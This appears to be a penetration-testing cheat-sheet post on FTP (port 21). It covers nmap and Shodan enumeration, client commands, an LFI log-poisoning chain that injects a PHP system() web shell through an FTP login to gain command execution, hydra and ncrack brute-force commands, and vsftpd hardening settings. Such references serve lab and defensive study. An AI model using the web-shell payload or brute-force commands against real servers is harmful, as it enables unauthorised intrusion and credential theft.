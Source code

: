 ```yaml
---
title: 🟢 21 FTP (TCP)
author: d4t4s3c
date: 1021-01-01
category: service
layout: post
---
```


### Basic Infomation

**File Transfer Protocol (FTP)** is a standard network protocol used to transfer files from one host to another over a TCP-based network, such as the internet.  
**Default Port: `21`**  
```ruby
PORT   STATE SERVICE
21/tcp open  ftp
```

When [Nmap](https://nmap.org) cannot obtain the service header directly, it uses the [IANA](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml) database to identify the service that might be running on a specific port.

---

### Enumeration

#### Active

```ruby
nc -vn 192.168.1.2 21
timeout 0.1 bash -c "nc -nv 192.168.1.2 21"
nmap -p21 -sS 192.168.1.2
nmap -p21 -sVC -p21 192.168.1.2
nmap -p21 --script="ftp-anon" 192.168.1.2
nmap -p21 --script="ftp-*" 192.168.1.2
```

#### Pasive

##### [Shodan](https://shodan.io)

```ruby
port:21
port:21 vsftpd
port:21 proftpd 1.3.5
port:21 os:"Linux"
port:21 os:"Windows"
port:21 country:"US"
port:21 country:"US" os:"Linux"
port:21 hostname:"ftp.domain.tld"
```

---

### Usage & Commands

```ruby
# upload file
put cmd.php
# upload all files
mput *
# download
get config.php
# download all files
prompt off
mget *
# binary mode enable
binary
# exit
bye
# rename file
ftp> rename cmd.php
(to-name) cmd.php5
# read files from ftp
ftp> less .htaccess
ftp> more .htaccess
```

#### Connect

```ruby
# default port (21)
ftp peter@192.168.1.2
ftp anonymous@192.168.1.2
ncftp -u peter -p 'Passw0rd' 192.168.1.2
lftp -u anonymous, 192.168.1.2
lftp -u peter,'Passw0rd' 192.168.1.2

# ftps (error: Fatal error: Certificate verification: Not trusted)
lftp :~> set ssl:verify-certificate false

# other port
lftp -u peter,'Passw0rd' 192.168.1.2 -p 1234
ncftp -u peter -p 'Passw0rd' -P 1234 192.168.1.2
```

---

### Remote Code Execution (RCE)

#### Log Poisoning

If it detects a **Local File Inclusion (LFI)** and manages to read the `/etc/passwd` file.  
(If you also saw that **port 21 (FTP)** is **open**.)

```ruby
file.php?file=/etc/passwd
```

If we can read the **FTP log file** located at `/var/log/vsftpd.log`.

```ruby
file.php?file=/var/log/vsftpd.log
```

An attacker can poison that log file by **injecting PHP code** into a fake login.

```ruby
lftp -u '<?php system($_GET["cmd"]); ?>', 192.168.1.2
```

We now have **Remote Command Execution (RCE)** on the destination server.

```ruby
file.php?file=/var/log/vsftpd.log&cmd=id
```

---

### Brute Force

#### Password

If you got a `username` and need the `password` this is the way.

```ruby
# default port (21)
ncrack --user peter -P rockyou.txt ftp://192.168.1.2 -f
hydra -t 64 -l peter -P rockyou.txt ftp://192.168.1.2 -f -I
# other port
ncrack --user peter -P rockyou.txt ftp://192.168.1.2:1234 -f
hydra -t 64 -l peter -P rockyou.txt ftp://192.168.1.2:1234 -f -I
# ftps
hydra -t 64 -l peter -P rockyou.txt ftps://192.168.1.2 -f -I
```

#### Username

If you have a `password` and need the `username` this is the way.

```ruby
# default port (21)
ncrack -U users.dic --pass Passw0rd ftp://192.168.1.46 -f
hydra -t 64 -L /opt/techyou.txt -p hello1 ftp://192.168.1.46 -f -I
# other port
ncrack -U users.dic --pass Passw0rd ftp://192.168.1.2:1234 -f
hydra -t 64 -L users.dic -p Passw0rd ftp://192.168.1.2:1234 -f -I
```

---

### Hardening & Configuration

#### Interesting Files

- `/srv/ftp` - Default **path**.
- `/var/log/vsftpd.log` - This file is for **logs**.
- `/etc/vsftpd.conf` - This file is for **configuration**.

#### Install

```ruby
# client
apt install -y ftp
apt install -y lftp
# server
apt install -y vsftpd
```

#### Change Port

```ruby
# default port
listen_port=21
# other port
listen_port=1234
```

#### User (Guest)

```ruby
# enable
anonymous_enable=YES
# disable
anonymous_enable=NO
```

#### Banner Grabbing (Disable)

```ruby
# show version
#ftpd_banner=Welcome to blah FTP service.
21/tcp open  ftp     vsftpd 3.0.3
# hidden version
ftpd_banner=Welcome to blah FTP service.
21/tcp open  ftp     vsftpd
```

#### Daemon (Listener)

```ruby
# external (0.0.0.0)
listen_address=0.0.0.0
listen_port=21
listen=YES
# internal (localhost)
listen_address=127.0.0.1
listen_port=21
listen=YES
```

#### Service

```ruby
service vsftpd start
service vsftpd stop
service vsftpd restart
service vsftpd status

/etc/init.d/vsftpd start
/etc/init.d/vsftpd stop
/etc/init.d/vsftpd restart
/etc/init.d/vsftpd status

systemctl start vsftpd
systemctl stop vsftpd
systemctl restart vsftpd
systemctl status vsftpd
```

---
